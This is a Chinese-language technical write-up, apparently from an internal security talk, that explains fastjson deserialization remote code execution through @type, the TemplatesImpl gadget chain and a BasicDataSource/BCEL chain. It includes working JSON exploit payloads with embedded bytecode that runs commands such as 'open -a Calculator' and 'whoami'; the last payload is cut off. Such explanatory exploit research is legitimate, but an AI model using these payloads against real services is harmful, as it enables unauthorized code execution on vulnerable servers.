内部分享中分享的一些fastjson知识点，这里简单记录一下。
文章中涉及的代码均已上传到github：https://github.com/h1iba1/fastjsonVulnDemo
fastjson原理浅析 Fastjson反序列化采用两个函数：
简单写一个demo来查看两者区别：
parseObject：默认返回 fastjson.JSONObject 类。
parse：默认返回@type指定的user类。
parseObject也可以添加Object.class参数来返回user类。

@type 如果利用过fastjson漏洞，会发现几乎所有的payload中都存在@type，那这个@type有啥含义呢？
@type参数能将我们序列化后的类转为@type中指定的类，然后在反序列化过程中会自动调用类中的setter和getter和构造函数。
写一个简单的dome进行尝试：
EvilEntity.java
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 package com.example.demo.entity;public class EvilEntity String cmd; public EvilEntity () } public void setCmd (String cmd) throws Exception this .cmd = cmd; Runtime.getRuntime().exec(this .cmd); } public String getCmd () return this .cmd; } @Override public String toString () return "Evil{" + "cmd='" + cmd + '\'' + '}' ; } }
FastJsonVuln.java
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 package com.example.demo.controller;import com.alibaba.fastjson.JSON;import com.alibaba.fastjson.parser.Feature;import org.springframework.web.bind.annotation.*;@RestController public class FastJsonVuln @RequestMapping(value = "/fastjson",method = RequestMethod.POST) public void fj_poc_test (@RequestBody String data) throws Exception Object obj= JSON.parseObject(data,Object.class, Feature.SupportNonPublicField); System.out.println(data); } @RequestMapping("/hello") public String hello () return "hello world" ; } }
post
1 {"@type" :"com.example.demo.entity.EvilEntity" ,"cmd" :"open -a Calculator" }

@type将我们序列化的数据转为了EvilEntity类型。obj.getClass().getName();获取对象类名可看到已经转为了EvilEntity类。

自动调用转换类型的set方法，进行赋值。

@type流程自动调用setter/getter底层流程感兴趣的可以跟一跟
木头的文章分析的很详细：https://mp.weixin.qq.com/s/30F7FomHiTnak_qe8mslIQ
简单跟了一下…

templatesImpl链条分析 TemplatesImpl这条链熟悉cc2的朋友可能会了解。调用流程如下；

1 TemplatesImpl#getOutputProperties()->TemplatesImpl#newTransformer()->TemplatesImpl#getTransletInstance()->TemplatesImpl#definerTransletClasses()->TransletClassLoader#defineClass()
defneClass可以将字节码转换为java类。而在这条链中刚好可以调用它，所以就给我们实例化字节码，命令执行提供了机会。
TemplatesImpl加载字节码demo：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;import org.apache.commons.codec.binary.Base64;import java.lang.reflect.Field;public class HelloTemplatesImpl1 public static void setFieldValue (Object obj, String fieldName, Object value) throws Exception Field field = obj.getClass().getDeclaredField(fieldName); field.setAccessible(true ); field.set(obj, value); } public static void main (String[] args) throws Exception byte [] code = Base64.decodeBase64("yv66vgAAADQANQoACwAaCQAbABwIAB0KAB4AHwoAIAAhCAAiCgAgACMHACQKAAgAJQcAJgcAJwEA\n" + "CXRyYW5zZm9ybQEAcihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RP\n" + "TTtbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0\n" + "aW9uSGFuZGxlcjspVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBAApFeGNlcHRpb25zBwAoAQCm\n" + "KExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO0xjb20vc3VuL29y\n" + "Zy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7TGNvbS9zdW4vb3JnL2Fw\n" + "YWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEABjxp\n" + "bml0PgEAAygpVgEADVN0YWNrTWFwVGFibGUHACYHACQBAApTb3VyY2VGaWxlAQAXSGVsbG9UZW1w\n" + "bGF0ZXNJbXBsLmphdmEMABMAFAcAKQwAKgArAQATSGVsbG8gVGVtcGxhdGVzSW1wbAcALAwALQAu\n" + "BwAvDAAwADEBABJvcGVuIC1hIENhbGN1bGF0b3IMADIAMwEAE2phdmEvaW8vSU9FeGNlcHRpb24M\n" + "ADQAFAEAEkhlbGxvVGVtcGxhdGVzSW1wbAEAQGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRl\n" + "cm5hbC94c2x0Yy9ydW50aW1lL0Fic3RyYWN0VHJhbnNsZXQBADljb20vc3VuL29yZy9hcGFjaGUv\n" + "eGFsYW4vaW50ZXJuYWwveHNsdGMvVHJhbnNsZXRFeGNlcHRpb24BABBqYXZhL2xhbmcvU3lzdGVt\n" + "AQADb3V0AQAVTGphdmEvaW8vUHJpbnRTdHJlYW07AQATamF2YS9pby9QcmludFN0cmVhbQEAB3By\n" + "aW50bG4BABUoTGphdmEvbGFuZy9TdHJpbmc7KVYBABFqYXZhL2xhbmcvUnVudGltZQEACmdldFJ1\n" + "bnRpbWUBABUoKUxqYXZhL2xhbmcvUnVudGltZTsBAARleGVjAQAnKExqYXZhL2xhbmcvU3RyaW5n\n" + "OylMamF2YS9sYW5nL1Byb2Nlc3M7AQAPcHJpbnRTdGFja1RyYWNlACEACgALAAAAAAADAAEADAAN\n" + "AAIADgAAABkAAAADAAAAAbEAAAABAA8AAAAGAAEAAAAMABAAAAAEAAEAEQABAAwAEgACAA4AAAAZ\n" + "AAAABAAAAAGxAAAAAQAPAAAABgABAAAADgAQAAAABAABABEAAQATABQAAQAOAAAAbAACAAIAAAAe\n" + "KrcAAbIAAhIDtgAEuAAFEga2AAdXpwAITCu2AAmxAAEADAAVABgACAACAA8AAAAeAAcAAAAQAAQA\n" + "EQAMABQAFQAXABgAFQAZABYAHQAYABUAAAAQAAL/ABgAAQcAFgABBwAXBAABABgAAAACABk=" ); TemplatesImpl obj = new TemplatesImpl(); setFieldValue(obj, "_bytecodes" , new byte [][] {code}); setFieldValue(obj, "_name" , "Helloss" ); setFieldValue(obj, "_tfactory" , new TransformerFactoryImpl()); obj.getOutputProperties(); } }
加载的字节码来自于HelloTemplatesImpl.java代码，javac编译java文件，编码成base64传输即可
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 import com.sun.org.apache.xalan.internal.xsltc.DOM;import com.sun.org.apache.xalan.internal.xsltc.TransletException;import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;import com.sun.org.apache.xml.internal.serializer.SerializationHandler;import java.io.IOException;public class HelloTemplatesImpl extends AbstractTranslet public void transform (DOM document, SerializationHandler[] handlers) throws TransletException {} public void transform (DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException public HelloTemplatesImpl () super (); System.out.println("Hello TemplatesImpl" ); try { Runtime.getRuntime().exec("open -a Calculator" ); } catch (IOException e) { e.printStackTrace(); } } }
执行即可实例化字节码，造成代码执行。

那么TemplatesImpl链条如何和fastjson结合起来呢？ FastJson在反序列化过程中会自动调用类中的getter函数和setter函数，然后在FastJson在寻找对应的反序列化器的时候会调用一个smartMatch函数来进行模糊匹配，在该函数中会将我们 json中的 _outputProperties 转换成 outputProperties，转换之后fastjson就会找到 getOutputProperties 方法，最后调用时触发了TemplatesImpl的利用链导致RCE
https://paper.seebug.org/636/
smartMatch会替换key中的_为空，_outputProperties 就转换成 outputProperties。

结合一开始说过的@type特性，自动调用getter方法，此时就会去调用getOutputProperties方法。就进入了templatesImpl链
1 TemplatesImpl#getOutputProperties()->TemplatesImpl#newTransformer()->TemplatesImpl#getTransletInstance()->TemplatesImpl#definerTransletClasses()->TransletClassLoader#defineClass()
扩展，不出网时利用 通过对templatesImpl链的分析，可以发现templatesImpl直接传输字节码不需要出网就能利用。
Payload:
1 2 {"@type" :"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl" ,"_bytecodes" :["yv66vgAAADQANQoACwAaCQAbABwIAB0KAB4AHwoAIAAhCAAiCgAgACMHACQKAAgAJQcAJgcAJwEACXRyYW5zZm9ybQEAcihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBAApFeGNlcHRpb25zBwAoAQCmKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEABjxpbml0PgEAAygpVgEADVN0YWNrTWFwVGFibGUHACYHACQBAApTb3VyY2VGaWxlAQAXSGVsbG9UZW1wbGF0ZXNJbXBsLmphdmEMABMAFAcAKQwAKgArAQATSGVsbG8gVGVtcGxhdGVzSW1wbAcALAwALQAuBwAvDAAwADEBABJvcGVuIC1hIENhbGN1bGF0b3IMADIAMwEAE2phdmEvaW8vSU9FeGNlcHRpb24MADQAFAEAEkhlbGxvVGVtcGxhdGVzSW1wbAEAQGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ydW50aW1lL0Fic3RyYWN0VHJhbnNsZXQBADljb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvVHJhbnNsZXRFeGNlcHRpb24BABBqYXZhL2xhbmcvU3lzdGVtAQADb3V0AQAVTGphdmEvaW8vUHJpbnRTdHJlYW07AQATamF2YS9pby9QcmludFN0cmVhbQEAB3ByaW50bG4BABUoTGphdmEvbGFuZy9TdHJpbmc7KVYBABFqYXZhL2xhbmcvUnVudGltZQEACmdldFJ1bnRpbWUBABUoKUxqYXZhL2xhbmcvUnVudGltZTsBAARleGVjAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7AQAPcHJpbnRTdGFja1RyYWNlACEACgALAAAAAAADAAEADAANAAIADgAAABkAAAADAAAAAbEAAAABAA8AAAAGAAEAAAAMABAAAAAEAAEAEQABAAwAEgACAA4AAAAZAAAABAAAAAGxAAAAAQAPAAAABgABAAAADgAQAAAABAABABEAAQATABQAAQAOAAAAbAACAAIAAAAeKrcAAbIAAhIDtgAEuAAFEga2AAdXpwAITCu2AAmxAAEADAAVABgACAACAA8AAAAeAAcAAAAQAAQAEQAMABQAFQAXABgAFQAZABYAHQAYABUAAAAQAAL/ABgAAQcAFgABBwAXBAABABgAAAACABk=" ],'_name':'a.b','_tfactory':{},"_outputProperties" :{ },"_name" :"a" ,"allowedProtocols" :"all" }

BasicDataSource： templatesImpl这条链限制很大，必须要parseObject()函数含有Feature.SupportNonPublicField才能利用。在真实环境一般不容易遇到，很鸡肋。这个时候就需要一条更通用的链，而BasicDataSource就是这样一条链。
这里简单测试了fastjson1.2.33版本payload。更多payload可以查看更多版本利用和poc可以查看https://mp.weixin.qq.com/s/amFZ4H0mwGxVLFc33kH1OA
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 cmd: whoami (数据头) { "xx" : { "@type" : "java.lang.Class" , "val" : "org.apache.tomcat.dbcp.dbcp2.BasicDataSource" }, "x" : { "name" : { "@type" : "java.lang.Class" , "val" : "com.sun.org.apache.bcel.internal.util.ClassLoader" }, { "@type" :"com.alibaba.fastjson.JSONObject" , "c" : { "@type" :"org.apache.tomcat.dbcp.dbcp2.BasicDataSource" , "driverClassLoader" : { "@type" : "com.sun.org.apache.bcel.internal.util.ClassLoader" }, "driverClassName" :"$$BCEL$$$l$8b$I$A$A$A$A$A$A$A$95W$Jx$Ug$Z$7e$t$bb$9b$99L$s$90$y$y$n$Jm9K$Sr$ARZ$S$K$84$40$m$92$84$98$NP$O$95$c9dH$W6$3bav$96$40$ab$b6JZ$5b$LZ$Lj9$d4$Kj$3c$f0$m$d1$r$82E$bc$82$d6$fb$3e$aax$l$f5$be$8b$8fJ$7d$ff$99$Nn$c8$96$3c$3e$cf$ce$7f$7e$ffw$be$df$f7$ff$fb$f4$b5$f3$X$B$y$c1U$V$c5x$m$H$ab$f1j$d1$bcF$c6A$V$7eo$a5_4$P$wxH$c5k$f1$b0$98$3c$a2$e0u$a2$7fT$c6$n$Vy8$ac$e2$f5x$83$ca$95$c7$c4$a97$8a$e6q1$3d$o$d8$kUQ$887$vx$b3$8c$b7$c8xB$cc$8e$c98$ae$a0I$c5$J$9c$U$8c$de$aa$a0C$c6$dbd$bc$5d$c5L$i$96$f1$a4$8a$d9$a2$7f$87$8a$b98$ac$e0$94$8a$d3x$a7$8a$e9x$97$82w$8b$7e$40$c1$7b$U$bcW$c1$fbd$bc_$c6$Z$V$l$c0$HE$f3$n$V$l$c6Y$V$d5$YT0$q$fa$8f$88$e6$a3$w$aa$90$U$cd9$d1$M$L5$3e$a6$e2$3c$$$88$e6$e3b$fa$94P$f9$a2$8cO$88$c9$ra$d3$te$7cJ$82$d4$zaJ$d3n$7d$9f$5e$9dp$o$d1$ea$f5z$bc$3bl$3a$b5$Sr$c2$91$ae$98$ee$qlS$c2$fc$f1$U$cb$bd$a5$a8$k$eb$aa$de$d8$b1$db4$9c$da$V$3c$95eD$r$U$a6$ed$d5G$f5x$bc$c9$d2$3bM$9b$db$be$ee$b8$z$a1$e0$c6$7do$a7$97$ad$d1$d3$v$n$98$b6$lv$ecH$ac$8b$E$92$3dv$p$r$94$h$3c$97$bd$3c$S$8b8$x$c8$a0$b4l$b3$E$7f$bd$d5I$b5$t7EbfK$a2$a7$c3$b4$db$f5$8e$a8$v$YX$86$k$dd$ac$db$R1O$zJ$fcf$df$a8R$8b$e54X$89X$e7$da$fd$86$d9$ebD$ac$Y$r$f9$9d$eeH$5c$c2$9c$a6x$a2$a7$c7$b4$e3$a6Qm$g$ddVu$bd$Vsl$x$g5$ed$ea$baht$z$97H$9c$XvtcO$b3$de$ebJ$a1$b3$J$u$ca$8aH$I$95$8e7$a3l$hu$b7$3avK$c8o6$9dn$ab$b3U$b7$f5$k$d3$a1$U$J$d32$ih$Uv$e6v$99N$9b$Z$ef$b5bq$daP$9cFe$9b$bb$a2$q$ab$f6$98Q$9dP$daf$baM$e9$867$d2$84$$$3dZg$Yf$3c$9eNT$99$81scl$l$7d$v$I$dau$9bz$a4$d3$cfJ$a3o$b1$c2$J$a3$db$d3$p$9d$s$d7$e8$d6$e9B$a7$85f$S7$bd$7d$d7u$8cX$d5$ad$M$ba$b3$c5$8e8$$j$qKB$a0$93$t$JV$a9$d1K$s$e6$RS$889$c7$a5$G$7e$7b$e9$f1N$d3$88$ea$b6$d9$d9$Q1$a3$84QQ$G$ad$dd$z$b2$M$c4$j$ddvx$$$e6f$ee$a7e$7c$86y$xAYnDSPR$c3V$c26$cc$86$88$c0$88$96$Kl$95$60$a9$e1$rh$d3$d0$82$8d$gZ$b1$91$80$k$97$k$g$ea$b1F$c3$3a$ac$970O$ec$ee$af$8a$9b$f6$be$a8$e9Tu$3bNo$d5z6ao$a1$cd$dc$9b0$e3$8e$8c$cfj$Y$c1e$N$8dx$b1$84$db$t$3a$e4E$5d$c3$GA$3ds$o$f4j$f8$i$dad$7c$5e$c3$d3$f8$82$868h$c4$X$f12$N_$S$cdKE$f3e$7cE$c3W$f15$a6$3e$c3$b9$de$U$v$cb$i$ba$813$Bzcrj$f8$3a$be1f$dd$c3$a8$8coj$f8$W$be$ad$a1$J$cd$y3$Z$A8F$f3$cc$f0$93$b0$e0$ff$A$9f$84$db$s$80$9e$E$d9$8aW$c5$88$3a$Z$df$d1$f0$5d$7cO$c3$f7$f1$MkH_$q$d6i$f5$J$bf$fc$80$c9$b8n$f5$G$c2dS$7bC$e5$5d$9eG$3c8$8e$da1$W$a4c$m$Q6$f4X$cc$b4e$fcP$c3$V$fcH$c3$8f$f1$T$Z$3f$d5$f03$fc$5c$40$e7$X$84$fb$8e$3a$N$bf$c4$af4$fc$g$cfhx$W$bf$d1$f0$5b$81$a9$df$89$e6$f7$f8$D$f1$a8$e1$8f$f8$93$86$3f$e3$_$g$fe$8a$bf$J$a8$e9$94$be$7d$7c$z$d0$f0w$R$bb$7f$e09$a6$de$84$b5$89$85b$fbM2$a3$f0$F$b6$98$9e$Z$ab$3a$9d$T$e5$m$F$8ey$a5$e3kwY$86r$3f$b9W8$cf$z$91$ed$b6n$98c$e0$d3$dem$T$7dLh$pa$dbf$cc$Z$9dO$zMg$e5$ad$92$97b$d0F$3d$S$a3x$9f$deI$3a$85$d1J$e93$a54$93$f4$fcH$bc$$$k$X$f7$hKs$83m$f5$I$de$e3$e8DM$W$81$f7$A$qaU$G$db$b6$8f$3fu$b3$w$3c$fd$85$f6$I$bf$I1$bd$87$8eX$96$a1$dag$IzY$a6$bb0$3d7$P$c4$j$b3$c7$bb$pZm$ab$d7$b4$9d$D$y$x$T$c4$e7$fau$9b$ebXMV$9fi$d7$eb$e2j$Z$eb$f9$ebD$rc$9c$c6z$k$W$b5$yf$98$ae$ef$K$fe$b7$d7$96$889$RQ$e7Uqc$8dNBc$b8$a6$96$c5$3dk$ee7$N$be$3a$s$d0$95V$89JQ$3bFRjQ$c2$qJj$8c$f5$s$I2$e2$84$8e$u$i$95$c6$d4M$db$e0$f1$f2$d2$8c$h$Z$a4$f3$ce$d5$Sqs$8d$Z$8d$f4xy$7f$T$r$d3$8b$81$b0$wf$ee$e7$8d$p$bb$c8$8f$c6nx$H$a4I$I$ec$8a$s$e2$bc$ea$CF$d4$S$ce$_$a0$rk$d2$af6Z7$a3$b4$ecfI$9c$c7$8b$d5$ab$a3$R$f7$89$e3$_$dd$s8$fb$c8$e9$G$M$dc$MM2$d3$c4$b6$f5$D$ee$b3$8a$B$cd$e3$f1p$82H2$bc$e4$K$89$3cc$ee$d1$ae1$F$a1h$7c$d2$a5$5e$80$98$c5gh1$9f$e52$UqCB$c2Z$ce$b2$d0$c09$_K$8e$Vq$ff$b9$fd$86T$cf$db$c3$edy$df$ba$7d$ab$db$Hx$96$d70$db0gI$f2$c8b$bf$bc$fc$i$qi$IY$fc$7c$X$e0$dfz$O$81$nd$PB$O$wI$e4$MA$V$c3$5cw$a8$N$40iZ$90$c4$a4aL$f6$N$p$ff$yyMC$F$l$d4y$f0$a1$9d$dc$aa$90$cbv2$9f$fc$F$94$h$84$86$v$a4$I$d1$KAWD$caB$y$e4$83$7d$JJP$8b$Z$d8D$eai$d4c$nOl$c6$W$f2$a3F$b8$H$5b$d9o$e3$97$8f$ac$e7yH$92$b1$5d4$3b$